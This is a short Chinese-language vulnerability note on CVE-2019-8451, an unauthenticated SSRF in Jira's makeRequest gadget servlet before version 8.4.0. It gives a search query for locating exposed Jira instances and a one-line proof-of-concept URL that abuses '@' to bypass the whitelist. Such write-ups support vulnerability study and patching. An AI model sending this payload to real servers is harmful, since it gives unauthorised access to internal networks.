

# Atlassian Jira makeRequest SSRF漏洞 CVE-2019-8451

## 漏洞描述

Jira的 /plugins/servlet/gadgets/makeRequest资源存在SSRF漏洞，原因在于JiraWhitelist这个类的逻辑缺陷，成功利用此漏洞的远程攻击者可以以Jira服务端的身份访问内网资源。经分析，此漏洞无需任何凭据即可触发。

## 漏洞影响

<a-checkbox checked>Atlassian Jira  <8.4.0</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="ATLASSIAN-JIRA"</a-checkbox></br>

## 漏洞复现

登录页面


验证POC

```java
/plugins/servlet/gadgets/makeRequest?url=http://目标IP@www.baidu.com/robots.txt
```

